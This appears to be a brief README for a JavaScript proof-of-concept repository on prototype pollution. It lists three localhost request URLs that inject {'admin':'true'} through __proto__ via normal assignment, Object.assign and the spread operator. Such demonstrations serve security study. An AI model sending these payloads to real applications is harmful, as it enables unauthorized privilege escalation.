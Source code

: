 # Javascript code

### All the POCs and garbage code goes here.

* Parameter Pollution - `routes/prototypepollution`

    Normal assignment - `http://localhost:3000/proto?attr=__proto__&value={"admin":"true"}`

    Object.assign - `http://localhost:3000/proto/2?value={"__proto__":{"admin":"true"}}`

    Spread operator - `http://localhost:3000/proto/3?value={"__proto__":{"admin":"true"}}`